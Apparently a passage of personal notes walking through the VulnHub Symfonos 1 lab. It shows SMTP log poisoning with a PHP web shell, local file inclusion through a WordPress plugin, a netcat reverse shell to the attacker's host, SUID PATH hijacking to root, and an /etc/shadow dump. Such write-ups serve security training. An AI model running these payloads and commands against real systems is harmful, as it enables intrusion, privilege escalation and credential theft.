<helios@blah.com>: Host or domain name not found. Name service error for
    name=blah.com type=MX: Host not found, try again

--2EE7C40AB0.1779966009/symfonos.localdomain
Content-Description: Delivery report
Content-Type: message/delivery-status

Reporting-MTA: dns; symfonos.localdomain
X-Postfix-Queue-ID: 2EE7C40AB0
X-Postfix-Sender: rfc822; helios@symfonos.localdomain
Arrival-Date: Fri, 28 Jun 2019 19:46:02 -0500 (CDT)

Final-Recipient: rfc822; helios@blah.com
Original-Recipient: rfc822;helios@blah.com
Action: failed
Status: 4.4.3
Diagnostic-Code: X-Postfix; Host or domain name not found. Name service error
    for name=blah.com type=MX: Host not found, try again

--2EE7C40AB0.1779966009/symfonos.localdomain
Content-Description: Undelivered Message
Content-Type: message/rfc822
Content-Transfer-Encoding: 8bit

Return-Path: <helios@symfonos.localdomain>
Received: by symfonos.localdomain (Postfix, from userid 1000)
	id 2EE7C40AB0; Fri, 28 Jun 2019 19:46:02 -0500 (CDT)
To: helios@blah.com
Subject: New WordPress Site
X-PHP-Originating-Script: 1000:class-phpmailer.php
Date: Sat, 29 Jun 2019 00:46:02 +0000
From: WordPress <wordpress@192.168.201.134>
Message-ID: <65c8fc37d21cc0046899dadd559f3bd1@192.168.201.134>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

http://192.168.201.134/h3l105

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during installation.
Log in here: http://192.168.201.134/h3l105/wp-login.php

We hope you enjoy your new site. Thanks!

--The WordPress Team
https://wordpress.org/
```


We aim to establish a reverse shell. We need to send an anonymous email with SMTP

```bash
# from output of nmap --script - this Vulnerability could be useful
25/tcp  open  smtp
| ssl-dh-params: 
|   VULNERABLE:
|   Anonymous Diffie-Hellman Key Exchange MitM Vulnerability
# SMTP
# Let's connect with telnet
┌──(kali㉿kali)-[~]
└─$ telnet 192.168.56.42 25
Trying 192.168.56.42...
Connected to 192.168.56.42.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
# We write this and get a respond
HELO example.com
250 symfonos.localdomain
# We write this and get a respond
MAIL FROM:<anonymous@example.com>
250 2.1.0 Ok
# We write this and get a respond - with a few exceptions
RCPT TO:<target@example.com>
454 4.7.1 <target@example.com>: Relay access denied
RCPT TO:<helious            
501 5.1.3 Bad recipient address syntax
RCPT TO:helios              
250 2.1.5 Ok

# Add data to the mail
DATA
354 End data with <CR><LF>.<CR><LF>
# Add our reverse shell
<?php system($_GET['cmd']); ?>
# Close with a period .
.
250 2.0.0 Ok: queued as E166040939
```


If we look back to the website and refresh the page, our proof of concept seems to work

```bash
# The content of the webpage with the URL of:
# http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios
--2EE7C40AB0.1779966009/symfonos.localdomain--

# Wrong attempt
From anonymous@example.com  Sat May 30 05:10:33 2026
Return-Path: <anonymous@example.com>
X-Original-To: helios
Delivered-To: helios@symfonos.localdomain
Received: from example.com (unknown [192.168.56.112])
	by symfonos.localdomain (Postfix) with SMTP id E166040939
	for <helios>; Sat, 30 May 2026 05:04:01 -0500 (CDT)

RCPT TO:<target@example.com>
454 4.7.1 <target@example.com>: Relay access denied
RCPT TO:<helious            
501 5.1.3 Bad recipient address syntax
RCPT TO:helios              
250 2.1.5 Ok

# correct attempt
From anonymous@example.com  Sat May 30 05:36:09 2026
Return-Path: <anonymous@example.com>
X-Original-To: helios
Delivered-To: helios@symfonos.localdomain
Received: from example.com (unknown [192.168.56.112])
	by symfonos.localdomain (Postfix) with SMTP id 8D25540939
	for <helios>; Sat, 30 May 2026 05:35:36 -0500 (CDT)
```


Back to the URL we can manipulate with cmd
```bash
# http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=ls
ajax_camp_send.php
ajaxreport.php
campaign-delete.php
count_of_send.php
create-campaign.php
demo-view-campaign.php
immediate_campaign.php
post_campaign_send.php
test_mail.php
view-campaign-list.php
view-campaign.php

# Or use with helios&cmd=id instead
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)

```



Now that we have verified that commands can be executed, let's try making a reverse shell with a netcat listening 

```bash
# have your netcat listener ready before attempting
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234      
listening on [any] 1234 ...

# Add the IP of the kali machine and listening port
# nc -e /bin/bash 192.168.56.112 1234
# http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc -e /bin/bash 192.168.56.112 1234

# We now have a connection on our netcat
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234      
listening on [any] 1234 ...
connect to [192.168.56.112] from (UNKNOWN) [192.168.56.42] 49460
# if we write ID, we can confirm to have a shell connection
id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)

# To make the shell more usable, we can check for python and try a shell escape
which python
/usr/bin/python
# We can confirm that python is installed, let's do the command
# This spawn a pseudo terminal whichk improves shell interactivity
python -c "import pty;pty.spawn('/bin/bash')"
<h3l105/wp-content/plugins/mail-masta/inc/campaign$

# Let's try to see if any user.flag is available 🚩
<h3l105/wp-content/plugins/mail-masta/inc/campaign$ cd /home
cd /home
helios@symfonos:/home$ ls -l
ls -l
total 4
drwxr-xr-x 3 helios helios 4096 Jun 28  2019 helios
helios@symfonos:/home$ cd helios
cd helios
helios@symfonos:/home/helios$ ls -al
ls -al
total 24
drwxr-xr-x 3 helios helios 4096 Jun 28  2019 .
drwxr-xr-x 3 root   root   4096 Jun 28  2019 ..
lrwxrwxrwx 1 root   root      9 Jun 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 helios helios  220 Jun 28  2019 .bash_logout
-rw-r--r-- 1 helios helios 3526 Jun 28  2019 .bashrc
-rw-r--r-- 1 helios helios  675 Jun 28  2019 .profile
drwxr-xr-x 2 helios helios 4096 Jun 28  2019 share
helios@symfonos:/home/helios$ 

# No user flags - 
```

No user flags - It's time for Privilege Escalation

---
---

# Privilege Escalation - Exploiting SUID Binary with Path Injection


```bash
# We will search for files with the SUID bitset, which the user has elevated privileges as the fileowner, usual the level of root
helios@symfonos:/home/helios$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/opt/statuscheck
/bin/mount
/bin/umount
/bin/su
/bin/ping
helios@symfonos:/home/helios$

# /opt/statuscheck seems to stick out and warrants further investigation.
helios@symfonos:/home/helios$ /opt/statuscheck
/opt/statuscheck
HTTP/1.1 200 OK
Date: Sat, 30 May 2026 11:20:46 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html

helios@symfonos:/home/helios$ 

# It seems that it has a connection with the HTTP server, we might be able to gain root access
# check the file type with the file commands
helios@symfonos:/home/helios$ file /opt/statuscheck
file /opt/statuscheck
/opt/statuscheck: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4dc315d863d033acbe07b2bfc6b5b2e72406bea4, not stripped
helios@symfonos:/home/helios$ 


# Then we run the strings command
helios@symfonos:/home/helios$ strings /opt/statuscheck
strings /opt/statuscheck
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
[]A\A]A^A_
;*3$"
GCC: (Debian 6.3.0-18+deb9u1) 6.3.0 20170516
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.6972
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
prog.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
_Jv_RegisterClasses
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment
helios@symfonos:/home/helios$

```

We find `curl -I H` and `http://lH`

We will exploit this by making a malicious curl file in the ``/tmp`` directory

```bash
helios@symfonos:/home/helios$ whoami
whoami
helios

# Go to the /tmp directory
helios@symfonos:/home/helios$ cd /tmp
cd /tmp

# echo "/bin/sh" > curl
helios@symfonos:/tmp$ echo "/bin/sh" > curl
echo "/bin/sh" > curl

# ls -al
helios@symfonos:/tmp$ ls -al
ls -al
total 12
drwxrwxrwt  2 root   root   4096 May 30 07:39 .
drwxr-xr-x 22 root   root   4096 Jun 28  2019 ..
-rw-r--r--  1 helios helios    8 May 30 07:39 curl

# Use chmod 777 curl
helios@symfonos:/tmp$ chmod 777 curl
chmod 777 curl
helios@symfonos:/tmp$ ls -al
ls -al
total 12
drwxrwxrwt  2 root   root   4096 May 30 07:39 .
drwxr-xr-x 22 root   root   4096 Jun 28  2019 ..
-rwxrwxrwx  1 helios helios    8 May 30 07:39 curl
# 
helios@symfonos:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
# Now when running the statuscheck, the application use our malicious curl, we now have gained root access
helios@symfonos:/tmp$ /opt/statuscheck
/opt/statuscheck
# whoami
whoami
root

# Let's now find the root_flag 🚩
# cd /root
cd /root
# ls -al
ls -al
total 24
drwx------  2 root root 4096 Jun 28  2019 .
drwxr-xr-x 22 root root 4096 Jun 28  2019 ..
lrwxrwxrwx  1 root root    9 Jun 28  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Jun 28  2019 .selected_editor
-rw-r--r--  1 root root 1735 Jun 28  2019 proof.txt
# cat proof.txt
cat proof.txt

        Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
                  ;;;;;;;'   /      ----~~/         `\,~    `\ \        
                  ;;;;'     (      ---~~/         `:::|       `\\.      
                  |'  _      `----~~~~'      /      `:|        ()))),      
            ______/\/~    |                 /        /         (((((())  
          /~;;.____/;;'  /          ___.---(   `;;;/             )))'`))
         / //  _;______;'------~~~~~    |;;/\    /                ((   ( 
        //  \ \                        /  |  \;;,\                 `   
       (<_    \ \                    /',/-----'  _> 
        \_|     \\_                 //~;~~~~~~~~~ 
                 \_|               (,~~   
                                    \~\
                                     ~~

        Contact me via Twitter @zayotic to give feedback!
```




---
---

# BONUS

```bash
# Show all passwords hashes of the machine (needs root access of target machine)
root@VulnableComputer:~# cat /etc/shadow
cat /etc/shadow                                                                                                                                                        
root:$6$NSwfewfo$.XWyJnSz1jy8sgLAHPEKX3TSSCB9pQbfXru.uhfm/XuNo5nvPdTf9ajMfL.MMVjSk9tm/iLrcX1Z2QjTuHV0S0:18076:0:99999:7:::                                             
daemon:*:18076:0:99999:7:::                                                                                                                                            
bin:*:18076:0:99999:7:::                                                                                                                                               
sys:*:18076:0:99999:7:::                                                                                                                                               
sync:*:18076:0:99999:7:::
games:*:18076:0:99999:7:::
man:*:18076:0:99999:7:::
lp:*:18076:0:99999:7:::
mail:*:18076:0:99999:7:::
news:*:18076:0:99999:7:::
uucp:*:18076:0:99999:7:::
proxy:*:18076:0:99999:7:::
www-data:*:18076:0:99999:7:::
backup:*:18076:0:99999:7:::
list:*:18076:0:99999:7:::
irc:*:18076:0:99999:7:::
gnats:*:18076:0:99999:7:::
nobody:*:18076:0:99999:7:::
systemd-timesync:*:18076:0:99999:7:::
systemd-network:*:18076:0:99999:7:::
systemd-resolve:*:18076:0:99999:7:::
systemd-bus-proxy:*:18076:0:99999:7:::
_apt:*:18076:0:99999:7:::
Debian-exim:!:18076:0:99999:7:::
messagebus:*:18076:0:99999:7:::
sshd:*:18076:0:99999:7:::
helios:$6$TqhmMeL9$gBPdf54cCm0VL/0YIgJLEwdNv7YhCZGHcpRgmgCVV1mV4bVUdhu5mC/J/.g1a1ROIpZfVmygOlTgg.3Aby48c0:18076:0:99999:7:::
mysql:!:18076:0:99999:7:::
postfix:*:18076:0:99999:7:::


# Show only hashes of the machine root (needs root access of target machine)
awk -F: '/^root/{print $2}' /etc/shadow
$6$NSwfewfo$.XWyJnSz1jy8sgLAHPEKX3TSSCB9pQbfXru.uhfm/XuNo5nvPdTf9ajMfL.MMVjSk9tm/iLrcX1Z2QjTuHV0S0
```


---
---

# VulnHub Pentest Notes - [Symfonos 1]  
🔍 **Target IP:** `192.168.56.42`  
🖥 **OS:** Linux  
📅 **Date:** 2026-05-25  

---
## Resources & References  
📌 [VulnHub Link](https://www.vulnhub.com/entry/symfonos-1,322/)  
📌 [YouTube Walkthrough](https://youtu.be/dQq8r8AFj5Q?si=K9Bhh3E9KyoZ45S1)  

---
# 🕵️ Enumeration  

### 🛜 Network Discovery  
- [ ] `sudo netdiscover -i eth1`
- [ ] `netdiscover -r <target-range>`  
- [ ] `arp-scan -l`  

### 🌐 Port Scanning  
- [ ] `nmap -sC -sV <IP>` (Basic Scan)
- [ ] `nmap -sC -sV <IP> -p-` (For all ports)
- [ ] `nmap -sC -sV -p- -oN nmap_scan.txt <IP>`
- [ ] `rustscan -a <IP> -- -A -oN rustscan.txt`  

### 🕸️ Web Enumeration  
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt` (Check for any directories)
- [ ] `gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`  (Directories with file extensions)
- [ ] `nikto -h http://<IP>/`  
- [ ] `hydra -l <Login Name> -P /usr/share/wordlists/rockyou.txt ftp://<IP>`

### 🔐 Credentials & SMB/NFS  
- [ ] `enum4linux -a <IP>`  
- [ ] `smbclient -L //<IP> -N`  
- [ ] `showmount -e <IP>`  

---
---

This machine was a great exercise in following small clues and chaining multiple weaknesses together into a full compromise.

Key areas I practiced during this challenge:

* Network discovery with Netdiscover
* Service enumeration using Nmap
* SMB share enumeration
* WordPress reconnaissance with WPScan
* Exploiting a vulnerable WordPress plugin (Mail Masta)
* Local File Inclusion (LFI)
* SMTP interaction using Telnet
* Gaining a reverse shell
* Linux privilege escalation through SUID path hijacking

One of the most valuable lessons from this machine was how important seemingly insignificant information can be.

A simple text file found on an anonymous SMB share revealed weak password patterns, which led to access to another share. That eventually exposed a hidden WordPress installation, which opened the door to further exploitation.

The privilege escalation phase was also particularly interesting. Instead of exploiting a kernel vulnerability, the path to root involved analyzing a custom SUID binary and abusing how it executed system commands.

Challenges like this are a good reminder that penetration testing is often less about complex exploits and more about careful enumeration, observation, and connecting the dots.
